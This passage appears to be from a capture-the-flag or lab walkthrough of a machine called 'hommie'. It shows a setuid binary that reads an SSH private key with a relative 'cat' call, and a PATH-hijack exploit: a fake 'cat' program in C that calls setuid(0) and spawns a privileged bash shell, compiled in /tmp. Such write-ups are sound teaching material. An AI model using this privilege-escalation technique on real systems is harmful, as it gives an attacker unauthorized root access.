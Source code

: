 ```bash
alexia@hommie:/tmp$ strings /opt/showMetheKey                                                                                                                             
/lib64/ld-linux-x86-64.so.2                                                                                                                                               
libc.so.6                                                                                                                                                                 
setuid                                                                                                                                                                    
system                                                                                                                                                                    
__cxa_finalize                                                                                                                                                            
setgid                                                                                                                                                                    
__libc_start_main                                                                                                                                                         
GLIBC_2.2.5                                                                                                                                                               
_ITM_deregisterTMCloneTable                                                                                                                                               
__gmon_start__                                                                                                                                                            
_ITM_registerTMCloneTable                                                                                                                                                 
u/UH                                                                                                                                                                      
[]A\A]A^A_                                                                                                                                                                
cat $HOME/.ssh/id_rsa  
```

**This  is a PATH Environment Variable exploit**

If a script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the executed command in the script.
Because cat command isn't an absolute path, we can abuse this!


We can create a script which runs as cat that can make us root!

```bash
alexia@hommie:/tmp$ cat cat.c 
int main() {
setuid(0);
system("/bin/bash -p");
}

alexia@hommie:/tmp$ gcc -o cat cat.c
cat.c: In function ‘main’:
cat.c:2:1: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
 setuid(0);
 ^~~~~~
cat.c:3:1: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
 system("/bin/bash -p");
 ^~~~~~
```
